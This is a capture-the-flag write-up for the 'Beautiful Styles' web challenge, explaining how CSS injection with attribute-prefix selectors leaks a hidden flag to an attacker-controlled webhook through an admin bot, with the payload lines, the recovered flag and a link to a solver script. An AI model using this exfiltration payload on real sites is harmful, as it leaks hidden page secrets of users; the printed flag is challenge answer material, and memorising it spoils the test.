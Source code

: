 # [WEB] Beautiful Styles
## Description
I opened a contest to see who could create the most beautiful CSS styles. Feel free to submit your CSS styles to me and I will add them to my website to judge them. I'll even give you a sample of my site to get you started. 
Flag only consists of numbers and uppcase letters and the lower character f.

Author: Junhua

http://challs.nusgreyhats.org:3333

# Approach
Entering the website, we are greeted with the following landing page, consisting of a source code of some web content and also an input for CSS styling.

![Landing Page](../images/beautiful-styles-1.png)

After clicking on the submit button, we are redirected to another page `/submission/submission_id` showing us the preview of how our CSS input has changed the styling of the web content. 
There is also a button to submit our code for judging, which is likely visited by some kind of admin bot.

![Submission Page](../images/beautiful-styles-2.png)

From the source code of the web content that they've shown us, we know that the flag is stored in an input tag, within the "value" attribute.
To exploit CSS injection, we provide the following CSS:

```
input[value^=grey\{] {
    background-image: url(https://webhook.site/XXX)
}
```

Get your own webhook URL [here](https://webhook.site/)

The `^=` selector will lead to the url being accessed if the value attribute starts with the specified string `grey{`, which we know it would be since it is part of the flag format. 
We just need to submit the CSS for judging to let the admin bot execute it. Since the admin bot (judge) is the one making request, its flag value will be the legitimate one which we are looking for, and not the fake flag which we see currently.
When the admin bot loads our CSS, our webhook is called.

From there on, we just need to perform what I call a `Inference-Based Blind Attack` (aka Brute-forcing) to add on additional characters to the value, recording down whenever our webhook receives a request. 
Eventually, it builds up to the following:

`input[value^=grey\{X]`

`input[value^=grey\{X5]`

`input[value^=grey\{X5S]`

`input[value^=grey\{X5S3]`

...

`input[value^=grey{X5S34RCH1fY0UC4NF1ND1T\}]`

![Webhook Requests](../images/beautiful-styles-3.png)

I have provided an automation script in this challenge folder. However, the script has to be run for each character of the flag, up until the last character of the flag `}` is present in the built `currentFlag` variable, which you will need to update each time you run the script. This is because I am not able to figure out a way to let the script know when our webhook gets called by the admin bot.

For keeping track of our flag which is being "built", we can append a `?c={Current Flag Progress}` query parameter to our webhook URL (included in the script). This way, we can monitor which character is next in the flag via the webhook page.

![Flag Progress](../images/beautiful-styles-4.png)

Flag: `grey{X5S34RCH1fY0UC4NF1ND1T}`

Script: [solve.py](https://raw.githubusercontent.com/0necloud/CTF-Writeups/refs/heads/main/Grey Cat The Flag 2024/Beautiful Styles/solve.py)
